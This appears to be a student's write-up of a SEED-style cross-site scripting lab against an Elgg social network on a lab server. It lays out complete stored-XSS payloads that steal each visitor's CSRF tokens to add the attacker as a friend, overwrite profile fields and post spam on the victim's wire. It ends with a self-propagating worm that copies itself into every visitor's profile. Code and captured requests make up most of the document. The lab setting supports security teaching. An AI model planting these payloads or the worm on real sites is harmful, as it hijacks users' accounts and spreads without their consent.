









# Cross-Site Scripting (XSS) Attack

1905066 - Abir Muhtasim

## Table of Contents
 - [Task 1 - Becoming the Victim’s Friend](#task-1---becoming-the-victims-friend)
- [Task 2 - Modifying the Victim’s Profile](#task-2---modifying-the-victims-profile)
- [Task 3 - Posting on the Wire on Behalf of the Victim](#task-3---posting-on-the-wire-on-behalf-of-the-victim)
- [Task 4 - Design a Self-Propagating Worm](#task-4---design-a-self-propagating-worm)


## Task 1 - Becoming the Victim’s Friend

Objective : Add Samy as a friend on the victim's account.

Whenever we send a friend request to someone we send a get request to `/action/friends/add`

So we need to write a script that sends a get request to the above url with the appropriate parameters.

<!-- Add the screenshot -->



When we add `samy` as a friend, the following request is sent:

``` http
GET /action/friends/add?friend=59&__elgg_ts=1707890461&__elgg_token=OQtFvs6FqIsBT-VJUXEjbQ&__elgg_ts=1707890461&__elgg_token=OQtFvs6FqIsBT-VJUXEjbQ HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=8ovf1av33iog3t0c9r0mikhmb5
```

So, we need to make a similar request. We can see that the request takes the following parameters:
- `friend` : The id of the user we want to add as a friend.
- `__elgg_ts` : A timestamp.
- `__elgg_token` : A token.

Notice that the `__elgg_ts` and `__elgg_token` are repeated twice. We need to send the same value for both of them.

From the request we can see that the value for `friend` is `59` for `samy`. Now we just need to find the `__elgg_ts` and `__elgg_token` values.

From inspecting the page source we can see that the `__elgg_ts` and `__elgg_token` values are in `elgg.security.token`



Now we can write our script.

```html
<script type="text/javascript">
	window.onload = function () {
		var Ajax=null;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;
		//Construct the HTTP request to add Samy as a friend.

		var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

		//Create and send Ajax request to add friend
		Ajax=new XMLHttpRequest();
		Ajax.open("GET",sendurl,true);
		Ajax.setRequestHeader("Host","www.seed-server.com");
		Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
		Ajax.send();
	}
</script>
```
We save this script in the `About me` section of Samy's profile. When the victim visits Samy's profile, the script will be executed and Samy will be added as a friend.

However, There is one problem. Samy is also added as a friend of himself. We need to modify the script so that Samy is not affected by the attack.



While inspcting the page source, we saw that there is a `guid` field in the `elgg.session.user`
object which uniquely identifies the user. And from samy's profile we can see that his `guid` is `59`. So we can add a condition to the script to check if the user is Samy or not.




But first we need to remove `samy` from his own friends list. For that we can use a similar request, just replace `add` with `remove` in the url.

After that we modify Samy's `About me` section with the following script:

```html
<script type="text/javascript">
	window.onload = function () {
		if(elgg.session.user && elgg.session.user.guid != 59) {
			var Ajax=null;
			var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
			var token="&__elgg_token="+elgg.security.token.__elgg_token;
			//Construct the HTTP request to add Samy as a friend.

			var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

			console.log(sendurl)

			//Create and send Ajax request to add friend
			Ajax=new XMLHttpRequest();
			Ajax.open("GET",sendurl,true);
			Ajax.setRequestHeader("Host","www.seed-server.com");
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send();
		}
	}
</script>
```

## Task 2 - Modifying the Victim’s Profile

Objective : Modify the victim’s profile when the victim visits Samy’s profile. You need to make the following modifications : 
 - Set all the field’s access levels to `Logged in Users`
 - Set your `student ID` in the `description`
 - Set all other fields with `random strings`

Lets first see how a valid request to modify the profile looks like.



We can see that a `POST` request is sent to `/action/profile/edit` and the content type is `multipart/form-data`

If we open the request tab we can see the payload of the request.



So basically it is submitting a form with user's details like name, description, location etc. Also it is sending the `__elgg_ts`, `__elgg_token` and `guid` values.

In order to modify victim's profile we need to send a similar request with appropriate fields. To get all the fields that are being sent, we can inspect the page source and look for a `form` element that has the `action` attribute set to `/action/profile/edit`



The form is very big. To get the fields of the form we can get the element by class name in the console and see necessary fields.



The form has the following fields:
 - `input` : _elgg_token, _elgg_ts, name,  location, interests, skills, contactemail, phone, mobile, website, twitter, briefdescription
 - `textarea` : description
 - `select` : accesslevel[description], accesslevel[location], accesslevel[interests], accesslevel[skills], accesslevel[contactemail], accesslevel[phone], accesslevel[mobile], accesslevel[website], accesslevel[twitter], accesslevel[briefdescription]


The select elemnets for the access levels have the following options:
 - 0 : Private
 - 1 : Logged in users
 - 2 : Public
 - 7 : Friends

We need to use 1 as our task is to set all the fields to `Logged in Users`

So now we just need to create a formData object with these fields and send a POST request to `/action/profile/edit` with the appropriate fields. 

We should use our student id in the `description` field and random strings in all other fields. However we should keep the `name` field as it is. And we need to provide the `guid`, `__elgg_ts` and `__elgg_token` values of the victim. These are most likely use for backend validation. We can get these values from the `elgg.security.token` and `elgg.session.user` objects. And as before we need to add a condition to check if the user is Samy or not.

(After some try and error I found that 'contactemail' must be in the form of an email address)

```html
<script type="text/javascript">

    function generateRandomString(length) {
        return Array.from({ length: length }, () => 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'[Math.floor(Math.random() * 62)]).join('');
    }

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
    
            let formData = new FormData();
            let ts=elgg.security.token.__elgg_ts;
            let token=elgg.security.token.__elgg_token;
            let username = elgg.session.user.name;
            let guid = elgg.session.user.guid;
            
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('name', username);
            formData.append('guid', guid);
        
            let fields = ['description', 'briefdescription', 'location', 'interests', 'skills', 'contactemail', 'phone', 'mobile', 'website', 'twitter'];
        
            for (let i = 0; i < fields.length; i++) {
                formData.append(fields[i], generateRandomString(10));
                formData.append(`accesslevel[${fields[i]}]`, 1);
            }
        
            formData.set('description', '1905066');
            formData.set('contactemail', generateRandomString(10) + '@gmail.com');
        
        
            var sendurl ="http://www.seed-server.com/action/profile/edit" 
        
        
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```

## Task 3 - Posting on the Wire on Behalf of the Victim

We need to post the following message on the victim's wire:
```
To earn 12 USD/Hour(!). visit now
<Link to Samy's Profile>

```

Lets first see how a valid request to post on the wire looks like.



This is making a `POST` request to `/action/thewire/add` with the following payload:

```http
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="__elgg_token"

oXCZvdhAdq4XZs9po9I_JQ
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="__elgg_ts"

1707911711
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="body"

Hello World!
-----------------------------288109164021817595263955770280--
```

Similar to task 2 we can create a formData object with the necessary fields and send a POST request to `/action/thewire/add` with the appropriate fields.

```html
<script type="text/javascript">

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
    
            let formData = new FormData();
            let ts=elgg.security.token.__elgg_ts;
            let token=elgg.security.token.__elgg_token;
            
            let post = "To earn 12 USD/Hour(!), visit now http://www.seed-server.com/profile/samy"
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('body', post);
           
        
            var sendurl ="http://www.seed-server.com/action/thewire/add" 
        
        
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```

## Task 4 - Design a Self-Propagating Worm

Objective : Design a self-propagating worm that can spread on its own when a user visits the attacker’s profile.

When successfully implemented, your designed worm should behave in the following way:
 - Samy adds the worm’s code to his profile.
 - Alice visits Samy’s profile, and the worm sends a friend request to Samy without Alice clicking the add friend button.
 - The worm replicates itself by modifying Alice’s profile and posting Alice’s profile link on the wire.


For this we need to combine the scripts from task 1 and 2. First it will add Samy as a friend then it will copy the script from the profile and add it to the victim's description. Then when another victim visits the first victim's profile, the worm will get copied to the second victim's profile and so on.

To copy the code, we can give the script a unique id and then get the innerHTML of the script tag and add it to the victim's description.

```html
<script id=worm type="text/javascript">

    function generateRandomString(length) {
        return Array.from({ length: length }, () => 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'[Math.floor(Math.random() * 62)]).join('');
    }

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
            

            // add friend
            var Ajax=null;
			var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
			var token="&__elgg_token="+elgg.security.token.__elgg_token;
			//Construct the HTTP request to add Samy as a friend.

			var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

			console.log(sendurl)

			//Create and send Ajax request to add friend
			Ajax=new XMLHttpRequest();
			Ajax.open("GET",sendurl,true);
			Ajax.setRequestHeader("Host","www.seed-server.com");
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send();


            var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
            var jsCode = document.getElementById("worm").innerHTML;
            var tailTag = "</" + "script>";
            var wormCode = headerTag + jsCode + tailTag;

    
            let formData = new FormData();
            ts=elgg.security.token.__elgg_ts;
            token=elgg.security.token.__elgg_token;
            let username = elgg.session.user.name;
            let guid = elgg.session.user.guid;
            
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('name', username);
            formData.append('guid', guid);
        
            let fields = ['description', 'briefdescription', 'location', 'interests', 'skills', 'contactemail', 'phone', 'mobile', 'website', 'twitter'];
        
            for (let i = 0; i < fields.length; i++) {
                formData.append(fields[i], generateRandomString(10));
                formData.append(`accesslevel[${fields[i]}]`, 1);
            }
        
            formData.set('description', wormCode);
            formData.set('contactemail', generateRandomString(10) + '@gmail.com');
        
        
            var sendurl ="http://www.seed-server.com/action/profile/edit" 
        
        
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```


